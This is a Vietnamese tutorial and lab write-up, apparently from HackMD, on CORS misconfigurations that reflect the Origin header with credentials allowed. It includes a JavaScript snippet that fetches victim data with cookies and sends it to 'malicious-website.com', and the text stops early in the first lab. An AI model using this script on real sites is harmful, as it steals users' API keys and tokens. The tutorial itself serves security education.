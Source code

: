 Một cách để cho phép truy cập từ bất kỳ domain nào là đọc giá trị từ **header** `Origin` trong request của client, rồi phản hồi lại bằng header cho biết domain đó được phép truy cập. 

Ví dụ là: có 1 HTTP request như này: 

```HTTP
GET /sensitive-victim-data HTTP/1.1
Host: vulnerable-website.com
Origin: https://malicious-website.com
Cookie: sessionid=...
``` 
Và có 1 response trả về. 

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://malicious-website.com
Access-Control-Allow-Credentials: true
...
``` 
Response này nói là: 
- Truy cập được cho phép từ domain đã gửi request (`malicious-website.com`)
- Các yêu cầu cross-origin được phép gửi kèm cookie (`Access-Control-Allow-Credentials: true`) 

Vì trong header có thuộc tính origin `Access-Control-Allow-Origin` điều này cho phép truy cập bất kỳ tài nguyên nào từ domain evil. 

Nếu mà response trả về các thông tin nhạy cảm như API key hoặc CSRF token. Và mình hoàn toàn có thể lấy khi xây dựng 1 script như sau: 

```javascript
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

### LAB01 

Ở lab này thì được cung cấp 1 account, sau khi login vào bằng `wiener:peter`, sau đó quan sát request và response thì: 

![image](https://hackmd.io/_uploads/H1uZtC-_ll.png)

Thì thấy trong phần `/accountDetails` thì có `Access-Control-Allow-Credentials: true` như vậy thì có thể là CORS có thể support. 

Để thử thì mình thử thêm 1 trường `Origin: https://example.com` vào trong header. 

![image](https://hackmd.io/_uploads/Byt0KCW_xg.png)

Thì nó xuất hiện 1 trường nữa là `Access-Control-Allow-Origin: https://example.com` 
